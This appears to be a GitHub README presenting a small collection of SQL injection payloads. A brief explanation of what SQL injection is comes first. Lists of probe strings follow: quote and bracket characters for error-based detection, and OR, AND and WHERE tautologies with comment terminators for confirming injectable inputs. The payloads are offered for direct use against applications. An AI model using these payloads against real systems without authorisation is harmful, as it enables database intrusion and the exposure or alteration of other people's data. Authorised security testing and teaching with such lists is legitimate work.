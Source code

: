 # SQL-Injection-Payloads
A small payload for sql injection. 
# What is SQL Injection ?
SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate an SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack.

![sql-injection](https://user-images.githubusercontent.com/115652296/195398529-be72a6b3-d6d9-405e-a8be-25168cc5290e.svg)

# Identifying SQLi | Error based payloads :
You can use these usefull examples :
```
'
"
`
')
")
`)
'))
"))
`))
/
//
\
\\
```
You can also confirm that there is an sqli vulnerability by using logical operations :

Using `OR`:
```
OR 1=1
OR 1=0
OR x=x
OR x=y
OR 1=1#
OR 1=0#
OR x=x#
OR x=y#
OR 1=1-- 
OR 1=0-- 
OR x=x-- 
OR x=y--
```
Using `AND` :
```
AND 1=1
AND 1=0
AND 1=1-- 
AND 1=0-- 
AND 1=1#
AND 1=0#
```
Using `WHERE` :
```
WHERE 1=1 AND 1=1
WHERE 1=1 AND 1=0
```